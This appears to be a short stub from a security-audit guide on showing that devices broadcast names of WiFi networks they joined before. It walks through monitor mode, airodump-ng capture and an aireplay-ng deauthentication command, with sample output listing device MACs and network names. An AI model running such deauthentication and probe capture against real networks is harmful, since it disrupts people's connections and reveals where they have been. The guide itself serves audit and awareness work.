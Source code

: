 ```yaml
---
type: ADIDS
id: audit-physical-beacon-instructions
...
```


Device broadcasts previously used WiFi network names [STUB]
Walkthrough

You should disconnect from any wifi network you may be connected to to capture the widest amount of data.

Step 1: Switch your wireless adapter to monitor mode

$ airmon-ng start <interface>

Step 2: Listen for wifi probes. Run airodump-ng on the monitor mode interface (usually mon0). This listens to wifi beacons and you can begin analyzing who is on what network, and see historical networks. Leave this running in a separate window for the duration of your visit.

airodunmp-ng mon0

Step 3: Send de-authentication packets to force clients to reconnect and send out additional probes

$ aireplay-ng -0 1 -a 00:11:A1:20:39:26 -c 0F:3E:DF:DA:2D:E2 mon0 

 15:54:48  Waiting for beacon frame (BSSID: 00:11:A1:20:39:26) on channel 1
 15:54:49  Sending 64 directed DeAuth. STMAC: [0F:3E:DF:DA:2D:E2] [ 5| 3 ACKs]

Step 3: Watch what probes the various devices are sending out (especially when they are deauthenticated, as above). You will see each computer on the network, as identified by their mac addresses, broadcast information about previous networks to which they have connected.

BSSID              STATION            PWR   Rate    Lost    Frames Probe                                                              
00:11:A1:20:39:26	0F:3E:DF:DA:2D:E2	-67	0	0	234567	SampleOrg,home,linksys¸John Smith's iPhone,Free Public Wifi
00:11:A1:20:39:26	F8:7E:FC:03:CC:43	-80	-24	0	234567	amygreen,SampleOrg,android-hotspot,Starbucks,united_club,Dulles Airport WiFi
00:11:A1:20:39:26	F8:19:F3:DF:75:19	-58	-54	0	234567	SampleOrg
00:11:A1:20:39:26	38:08:95:EB:7E:0B	-75	-12	0	234567	HolidayInn,SampleOrg,John Smith's Mac mini,android-hotspot

